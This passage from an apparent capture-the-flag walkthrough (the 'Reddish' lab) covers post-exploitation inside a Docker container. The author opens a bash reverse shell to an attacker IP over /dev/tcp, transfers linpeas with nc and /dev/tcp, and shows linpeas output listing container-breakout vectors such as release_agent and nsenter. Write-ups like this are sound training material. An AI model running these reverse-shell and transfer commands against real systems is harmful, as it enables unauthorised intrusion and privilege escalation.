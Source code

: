 It seems we are in a private network. We cannot cd to other directories. Let’s connect back to us with a real reverse shell:

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.4/4445 0>&1"
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2011.png)

Let’s run linpeas to enumerate the target fully:

```bash
#attack host
nc -lnvp 8001 < linpeas.sh

#target
cat < /dev/tcp/10.10.16.4/8001 > linpeas.sh
```

Interesting Outputs:

```bash
╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/index.html
═╣ Container ID ................... nodered═╣ Container Full ID .............. c075cbb82a4a9e0532ba61056d5651b7c855c0153c8156bf0c4eae3b1c4d25c9
══╣ Security Mechanisms
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ User proc namespace? ........... enabled         0          0 4294967295
══╣ Known Vulnerabilities
═╣ Vulnerable to CVE-2019-5021 .... No

═╣ Container escape tools present .. /usr/bin/nsenter
══╣ Runtime Vulnerabilities
══╣ Breakout via mounts
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/sensitive-mounts.html
═╣ /proc mounted? ................. Yes
═╣ /dev mounted? .................. No
═╣ Run unshare .................... No
═╣ release_agent breakout 1........ Yes
═╣ release_agent breakout 2........ No
═╣ release_agent breakout 3........
═╣ core_pattern breakout .......... No
═╣ binfmt_misc breakout ........... No
═╣ uevent_helper breakout ......... No
═╣ Docker socket mounted? ......... No
═╣ Common host filesystem mounted?  /dev/sda2 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
═╣ Interesting mounts ............. overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/GWNHWU65AYNRU6Y3QPS3AZEHXU:/var/lib/docker/overlay2/l/GDVJ4H535AMQNU6WZ2FY2VMPUZ:/var/lib/docker/overlay2/l/H62XPW7L4KUDWBHP7HMSDHEQ72:/var/lib/docker/overlay2/l/OZPJWNGLMJDG5H4MS2EJCJKODJ:/var/lib/docker/overlay2/l/535GQEKUEOQEHEGFBSIUCV72UE:/var/lib/docker/overlay2/l/KP3HKB3LZVIYEBIHT4GGM7QOCD:/var/lib/docker/overlay2/l/HZFR4I56OJZ5E7PXQ6VE4ILWVB:/var/lib/docker/overlay2/l/WSKZU3BWXJXR5FPQZDPD4DIHXY:/var/lib/docker/overlay2/l/BEWUMTONK4KGWVPHZ5MKVYTKIY:/var/lib/docker/overlay2/l/Z5QBGAGUKEYGRYMI6MICDNLJO3:/var/lib/docker/overlay2/l/ZEGJUNT5MQYJKPZGRUKFCRD7MH:/var/lib/docker/overlay2/l/BAO3C225NWRRJIKO4OCPFAEIGS:/var/lib/docker/overlay2/l/OPOC6CXGJW2YFIXXHD42CMAMT7:/var/lib/docker/overlay2/l/RQHCOGNZNXHBT27S4YMC243HDZ:/var/lib/docker/overlay2/l/Y5IQC7PIMO75VAP7I7NBGTOZOC,upperdir=/var/lib/docker/overlay2/0050bdbde2960b15c4474263bde71db954f03274c84752a440a44a9e4e12742a/diff,workdir=/var/lib/docker/overlay2/0050bdbde2960b15c4474263bde71db954f03274c84752a440a44a9e4e12742a/work)
```